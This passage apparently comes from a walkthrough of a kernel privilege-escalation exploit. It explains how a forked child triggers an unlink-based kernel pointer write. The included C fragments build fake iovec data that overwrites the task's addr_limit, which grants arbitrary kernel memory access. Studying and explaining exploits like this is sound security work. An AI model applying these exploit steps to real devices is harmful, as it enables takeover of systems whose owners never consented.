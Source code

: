 The memory layout will be the same as the one after the unlink done by `task_struct_leak`:

<img src="../images/unlink_kptr_write.png" alt="unlink_kptr_write" style="zoom:50%;" />

Now the child calls `write()` passing `final_sock_data` as data to send.

```c
pid_t child = fork();

if (!child) {
    /* used to avoid race conditions */
    sleep(2);
    unlink_kptr_write();
	  nBytesWritten = write(WRITE_SOCK, final_sock_data, sizeof(final_sock_data));
    [...]
}
```

Let's look at what data are sent through `write()`:

```c
unsigned long final_sock_data[] = {
						0x1,                                        // iovec[IOVEC_OVERLAP_INDEX].iov_len
            0x41414141,                                 // iovec[IOVEC_OVERLAP_INDEX + 1].iov_base
            0x8 + 0x8 + 0x8 + 0x8,                      // iovec[IOVEC_OVERLAP_INDEX + 1].iov_len
            task_struct_kptr + ADDR_LIMIT_OFFSET,       // iovec[IOVEC_OVERLAP_INDEX + 2].iov_base
            0x8,                                        // iovec[IOVEC_OVERLAP_INDEX + 2].iov_len
            0xFFFFFFFFFFFFFFFE                          // addr_limit value to write
};
```
